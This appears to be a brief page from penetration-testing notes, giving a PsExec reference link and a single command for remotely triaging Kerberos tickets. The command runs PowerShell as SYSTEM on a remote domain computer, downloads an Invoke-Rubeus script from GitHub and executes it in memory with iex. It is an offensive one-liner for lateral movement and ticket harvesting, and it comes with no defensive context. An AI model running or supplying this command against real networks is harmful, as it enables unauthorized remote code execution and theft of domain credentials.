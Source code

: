 # References
- [PsExec](https://learn.microsoft.com/en-us/sysinternals/downloads/psexec)


# Run Invoke-Rubeus triage remotly
```batchfile
psexec.exe -s -accepteula -u <domain>\<user> \\<computer>.<domain.local> "powershell -Command "iex(New-Object Net.WebClient).DownloadString('https://github.com/okazymyrov/piki/raw/master/Invoke-Rubeus.ps1'); Invoke-Rubeus triage""
```

